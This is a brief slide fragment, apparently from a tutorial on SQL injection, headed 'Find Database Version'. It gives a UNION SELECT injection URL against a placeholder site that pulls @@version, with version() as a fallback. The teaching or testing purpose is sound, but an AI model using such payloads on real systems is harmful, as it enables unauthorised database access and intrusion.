

# Find Database Version
http://www.examplesite.com/index.php?id=-5 union select1,2,@@version,4,5,6,7,8,9,10—
And if that doesn’t work then try this user version()